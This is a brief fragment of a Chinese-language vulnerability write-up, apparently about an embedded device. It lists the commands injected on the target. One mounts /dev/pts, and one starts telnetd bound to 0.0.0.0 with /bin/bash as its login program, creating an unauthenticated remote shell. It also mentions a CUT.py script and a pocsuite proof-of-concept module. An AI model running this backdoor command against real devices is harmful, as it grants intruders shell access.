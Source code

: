 command命令主要为：

					mount -t devpts devpts /dev/pts  #挂载  -t 指定要挂载的设备上的文件系统类型  devpts: 虚拟文件系统   /dev/pts:伪终端

					/bin/sh -c "/usr/sbin/telnetd -l /bin/bash -b 0.0.0.0"&     开启telnet 

                                        telnet 程序通过 伪终端 对外进行通信



#### CUT.py 脚本 就是 基于此进行 的  设备操作 可以获得一些对应数据

同时也写成了pocsuite的验证模式见地址









